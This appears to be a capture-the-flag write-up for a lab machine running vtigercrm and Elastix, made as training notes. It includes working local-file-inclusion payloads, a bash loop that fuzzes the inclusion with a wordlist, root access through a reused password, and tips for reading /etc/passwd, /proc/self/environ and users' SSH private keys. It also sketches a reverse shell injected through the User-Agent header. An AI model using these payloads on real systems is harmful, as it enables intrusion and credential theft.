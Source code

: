 ```bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
<SNIP..>
fanis:x:501:501::/home/fanis:/bin/bash
```
- Form this we can identify the users spamfilter and fanis
## Exploitation again
- Attempted to use php filters to leak the website source code however I was unsuccessful
- I was able to leak the user flag by doing `sortfieldsjson.php?module_name=../../../../../../../../home/fanis/user.txt%00` however I feel this is sort of cheating as I am not actually the user yet
- I create the following bash script in order to retrieve useful files
```bash
#!/bin/bash

for i in $(cat /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt)
do
        contents=$(curl "https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../.."$i"%00" -k)

        if [ $(echo $contents | wc -c) != 0 ]
        then
                echo $contents > $(echo $i| tr '/' '_').txt
        fi
done
```
- Config files for website must be stored in a non standard location as i did not get any config files
- **Walthough hint - Elastix exploit `/help`**
- Looking at searchsploit results both the LFI and RCE exploit look interesting
- Going to start with the LFI exploit
- This lfi example brngs up a config page with users and passwords in it
- Now have credentials for the asterisk user and admin
- That password works getting me into the admin portal
- When trying to ssh as asterisk i get a connection reset error
- I attempt to ssh in as root using the same password and am successful
- Able to get the root flag
## Review / Take aways
- After doing some research on the box, it turns out there are multiple ways of exploiting it
- Always look for help docuemts, as they can tell you version numbers or dates
- When I get stuck I should always go back a step in my enumeration process and see if there was a result I missed or a result I was going to review but forgot
- The reason the php filters did not work was due to the position the vulnerable variable in the url in the backend
- e.g if language was a vulnerable varable and the php code was
```php
@include("include/language/$language.lang.php");
```
- Even though language was never sanitised, because it comes after `include/language` adding a php filter would make it look like `include/language/php://......` and would not show anything
- If it was at the begining,  the php filters would work
- If instead of include it was get_file_contents it would get contents of the file and not execute any code
- Can identify the user of a web server with LFI by getting the file `/proc/self/status`
- Look at the User Id (uid) and Group Id (guid), go back to the `/etc/passwd` and look for users that match those details
- Always good to check for ssh keys on the server as they would be an instant win
- Copy home directory of user from the `/etc/passwd` file and using the LFI include the file `<Home path>/.ssh/id_rsa`
- Another good file to try to include is `/proc/self/environ`, this file may have variables that the webservers has.
- This is useful as a common variable is the User-Agent and if we can retreive that page we could put a reverse shell in the User-Agent field of our request
- Can communicate with the SMTP server using telnet